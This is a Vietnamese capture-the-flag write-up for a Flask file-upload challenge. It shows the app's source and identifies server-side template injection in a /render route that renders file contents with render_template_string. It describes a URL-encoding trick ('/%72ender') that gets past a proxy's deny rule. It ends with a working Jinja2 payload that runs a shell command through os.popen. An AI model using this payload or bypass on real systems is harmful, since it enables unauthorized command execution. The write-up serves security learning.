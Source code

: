 - SSTI.

- Đầu tiên ta nhìn luồng hoạt động của website:

    ○ Tạo ngẫu nhiên 1 path: ```uploads/<folder_name>/```
    
    
    ```python
    @app.before_request
    def log_request_info():
        logger.info(f"REQUEST: {request.method} {request.path}")
        if 'folder' not in session:     # Nếu session 'folder' chưa có
            folder_name = uuid.uuid4().hex     # Tạo 'folder_name' 
            session['folder'] = folder_name    
            session_folder_path = os.path.join(BASE_UPLOAD_FOLDER, folder_name)     #Tạo thư mục 'uploads/<folder_name>'
            os.makedirs(session_folder_path, exist_ok=True)
        else:
            session_folder_path = os.path.join(BASE_UPLOAD_FOLDER, session['folder'])
        app.config['UPLOAD_FOLDER'] = session_folder_path   # Đường dẫn thư mục cụ thể của session
    ```
    
    ○ Trang web chức năng upload file '.html', '.txt' ở đường dẫn ```/upload``` (file được lưu ở ```'uploads/<folder_name>/<file_name>'``` với file name được random ngẫu nhiên
    
    ```python
    @app.route('/upload', methods=['GET', 'POST'])
    def upload_file():      # Chỉ cho phép extension là '.txt' với '.html'
        if request.method == 'POST':
            if 'file' not in request.files:
                return "No file part"
            file = request.files['file']
            if file.filename == '':
                return "No selected file"
            if file and allowed_file(file.filename):
                ext = file.filename.rsplit('.', 1)[1].lower()
                random_str = uuid.uuid4().hex[:16]     
                filename = f"{random_str}.{ext}"    #Lưu file với tên ngẫu nhiên
                filepath = os.path.join(app.config['UPLOAD_FOLDER'], filename)
                file.save(filepath)
                return f"File uploaded successfully! Path: {filepath} <a href='/files'>See all files</a>"
            return "File type not allowed"
        return render_template("upload.html")
    ```
    
    ○ Đọc các file đã upload ở ```/uploads/<folder_name>/<file_name>```:
    
    ```python
    @app.route('/uploads/<folder>/<filename>')
    def download_file(folder, filename):
        folder_path = os.path.join(BASE_UPLOAD_FOLDER, folder)
        return send_from_directory(     # Download file đã upload.
            folder_path,
            filename,
            mimetype='text/plain',
            as_attachment=False
        )
    ```
    
    ○ Đọc các file đã gửi ở route ```/files```:
    
    ```python
    @app.route('/files', methods=['GET'])
    def list_files():       #Liệt kê các file trong session 'folder'
        folder = session.get('folder')
        if not folder:
            folder = uuid.uuid4().hex
            session['folder'] = folder
        folder_path = os.path.join(BASE_UPLOAD_FOLDER, folder)
        os.makedirs(folder_path, exist_ok=True) 
        files = os.listdir(folder_path)
        file_urls = [f"uploads/{folder}/{f}" for f in files]
        return render_template("files.html", files=zip(files, file_urls))
    ```

    ○ Ứng dụng sẽ render nội bộ nội dung của file đã upload lên ở ```/render```:
    
    ```python
    # Internal access to render
    @app.route('/render')       
    def render_file():
        filepath = request.args.get("filepath", "") 
        if not os.path.isfile(filepath):
            return "File not found", 404
        with open(filepath) as f:
            content = f.read()      # Mở file tùy ý mà không qua sandbox nào rồi gọi render luôn --> SSTI!!!
        return render_template_string(f"<pre>{ content }</pre>")
    ```

    --> SSTI ở đây.
    
Nhưng ta có 1 vấn đề ở đây là khi ta vào route ```render```, sẽ bị proxy chặn lại và chuyển qua ```/internal``` vì file ```remap.config```:
    
    ```text
    map /render http://gunicorn-server:8088/internal @action=deny @method=post @method=get    # deny mọi request tới /render...
    map / http://gunicorn-server:8088/
    ```
    
- Sự khác biệt giữa Proxy và Server:
    ○ Proxy: Khi nhận request chứa encode như ```'/%72ender?...'```, proxy chỉ so khớp theo pattern đơn giản nên không nhận diện đây là endpoint ```'/render'``` 

    ○ Server: Khi nhận request, sẽ fully URL decode và định tuyến tới endpoint ```'/render'``` chính xác.

- File html: ```{{ cycler.__init__.__globals__.os.popen('cat /flag_*').read() }}```